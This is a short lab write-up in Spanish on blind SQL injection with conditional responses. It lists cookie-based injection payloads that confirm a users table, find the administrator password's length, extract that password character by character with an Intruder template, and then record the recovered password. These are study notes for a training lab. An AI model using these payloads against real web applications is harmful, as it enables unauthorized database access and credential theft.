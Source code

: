 # 11 Lab: Blind SQL injection with conditional responses

Si el parametro de Cookie es correcto, nos mostrará el WELCOME BACK

```jsx
' AND '1'='1;
/// EXISTE TABLA USERS Y fila administrator
' AND (SELECT 'a' FROM users LIMIT 1)='a
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
/// Obtener longitud de la clave, obtenemos que tiene 19 caracteres
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a

TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
// Probamos con Intruder
' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§;
son 19 caracteres, estos pueden ser minuscular y caracteres alfanumericos

administrator
vo60jlee4jbqx13nv8gg
```

![Untitled](11%20Lab%20Blind%20SQL%20injection%20with%20conditional%20respon%2017efab5460ec81699b7de6b7f2f9b3f3/Untitled.png)

![Untitled](11%20Lab%20Blind%20SQL%20injection%20with%20conditional%20respon%2017efab5460ec81699b7de6b7f2f9b3f3/Untitled%201.png)

![Untitled](11%20Lab%20Blind%20SQL%20injection%20with%20conditional%20respon%2017efab5460ec81699b7de6b7f2f9b3f3/Untitled%202.png)

![Untitled](11%20Lab%20Blind%20SQL%20injection%20with%20conditional%20respon%2017efab5460ec81699b7de6b7f2f9b3f3/Untitled%203.png)

![Untitled](11%20Lab%20Blind%20SQL%20injection%20with%20conditional%20respon%2017efab5460ec81699b7de6b7f2f9b3f3/Untitled%204.png)

![Untitled](11%20Lab%20Blind%20SQL%20injection%20with%20conditional%20respon%2017efab5460ec81699b7de6b7f2f9b3f3/Untitled%205.png)

hghgf